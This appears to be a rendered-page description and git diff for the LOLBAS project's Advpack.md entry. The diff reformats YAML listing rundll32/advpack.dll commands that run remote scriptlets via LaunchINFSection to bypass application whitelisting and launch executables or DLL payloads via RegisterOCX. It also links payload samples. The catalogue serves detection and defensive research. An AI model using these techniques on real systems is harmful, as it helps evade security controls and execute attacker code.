

Before and after one commit to LOLBAS-Project/LOLBAS-Project.github.io, a Jekyll site: the page built from _lolbas/Libraries/Advpack.md, in a window 1280 px wide and 1400 px high, scrolled down 269 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update Advpack.md

```diff
--- a/_lolbas/Libraries/Advpack.md
+++ b/_lolbas/Libraries/Advpack.md
@@ -1,36 +1,28 @@
 ---
+name: advpack.dll
+description: Legitimately used for installing of software and drivers.
 functions:
+  awl-bypass:
+    - description: Execute the specified (local or remote) .wsh/.sct script with scrobj.dll in the .inf file by calling an information file directive (section name specified).
+      code: rundll32.exe advpack.dll,LaunchINFSection c:\test.inf,DefaultInstall_SingleUser,1,
+    - description: Execute the specified (local or remote) .wsh/.sct script with scrobj.dll in the .inf file by calling an information file directive (DefaultInstall section implied).
+      code: rundll32.exe advpack.dll,LaunchINFSection c:\test.inf,,1,
   execute:
-    -
-      Name: Advpack.dll
-      Description: Execute
-      Author: ''
-      Created: '2018-05-25'
-      Categories: |
-
-      Commands: |
-          Command: rundll32.exe advpack.dll,LaunchINFSection c:\\test.inf,DefaultInstall_SingleUser,1,
-          Description: Remote fetch and execute a COM Scriptlet by calling an information file directive (Section name specified).
-          Command: rundll32.exe advpack.dll,LaunchINFSection test.inf,,1,
-          Description: Remote fetch and execute a COM Scriptlet by calling an information file directive (DefaultInstall section implied).
-          Command: rundll32.exe Advpack.dll,RegisterOCX calc.exe
-          Description: Launch executable by calling the RegisterOCX function.
-          Command: rundll32 advpack.dll, RegisterOCX "cmd.exe /c calc.exe"
-          Description: Launch executable by calling the RegisterOCX function.
-          Command: rundll32.exe Advpack.dll,RegisterOCX test.dll
-          Description: Launch a DLL payload by calling the RegisterOCX function.
-      Full_Path:
-          c:\windows\system32\advpack.dll
-          c:\windows\sysWOW64\advpack.dll
-      Code_Sample:
-          https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSLibraries/Payload/Advpack.inf
-          https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSLibraries/Payload/Advpack_calc.sct
-      Detection: |
-
-      Resources: |
-          https://bohops.com/2018/02/26/leveraging-inf-sct-fetch-execute-techniques-for-bypass-evasion-persistence/
-          https://twitter.com/ItsReallyNick/status/967859147977850880
-          https://twitter.com/bohops/status/974497123101179904
-          https://twitter.com/moriarty_meng/status/977848311603380224
-      Notes: Thanks to Jimmy - @bohops (LaunchINFSection), fabrizio - @0rbz_ (RegisterOCX - DLL), Moriarty @moriarty_meng (RegisterOCX - Cmd)
+    - description: Launch executable by calling the RegisterOCX function.
+      code: rundll32.exe advpack.dll,RegisterOCX calc.exe
+    - description: Launch command line by calling the RegisterOCX function.
+      code: rundll32 advpack.dll, RegisterOCX "cmd.exe /c calc.exe"
+    - description: Launch a DLL payload by calling the RegisterOCX function.
+      code: rundll32.exe advpack.dll,RegisterOCX test.dll
+resources:
+    - resource: https://bohops.com/2018/02/26/leveraging-inf-sct-fetch-execute-techniques-for-bypass-evasion-persistence/
+    - resource: https://twitter.com/ItsReallyNick/status/967859147977850880
+    - resource: https://twitter.com/bohops/status/974497123101179904
+    - resource: https://twitter.com/moriarty_meng/status/977848311603380224
+    - resource: https://github.com/LOLBAS-Project/LOLBAS-Project.github.io/blob/master/_lolbas/Libraries/Payload/Advpack.inf
+    - resource: https://github.com/LOLBAS-Project/LOLBAS-Project.github.io/blob/master/_lolbas/Libraries/Payload/Advpack_calc.sct
+fullpath:
+    - path: c:\windows\system32\advpack.dll
+    - path: c:\windows\syswow64\advpack.dll
+notes: Thanks to Jimmy - @bohops (LaunchINFSection), fabrizio - @0rbz_ (RegisterOCX - DLL), Moriarty @moriarty_meng (RegisterOCX - Cmd), Nick Carr - @ItsReallyNick
 ---
```
